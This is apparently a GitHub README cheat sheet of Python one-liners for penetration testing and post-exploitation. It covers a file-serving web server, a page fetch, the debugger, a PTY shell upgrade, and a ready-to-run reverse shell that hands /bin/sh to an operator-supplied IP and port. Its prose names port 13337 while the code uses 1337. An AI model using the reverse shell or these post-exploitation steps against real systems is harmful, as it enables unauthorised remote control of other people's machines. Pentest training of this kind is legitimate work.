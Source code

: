 # Cool Python Tricks

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
`python -m SimpleHTTPServer 1337`

### In Python 3.x
`python3 -m http.server 1337`

----
## Pythonic Web Client

### In Python 2.x
`python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html`
### In Python 3.x
`python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'`

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

`python -m pdb <some_python_file>`

Refer to this [Python Debugger cheatsheet](https://kapeli.com/cheat_sheets/Python_Debugger.docset/Contents/Resources/Documents/index) if you are not familiar with the Python Debugger.

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

`python -c 'import pty; pty.spawn("/bin/bash")'`

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 192.168.78.205) and the port (instead of 13337) below:

```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.78.205",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

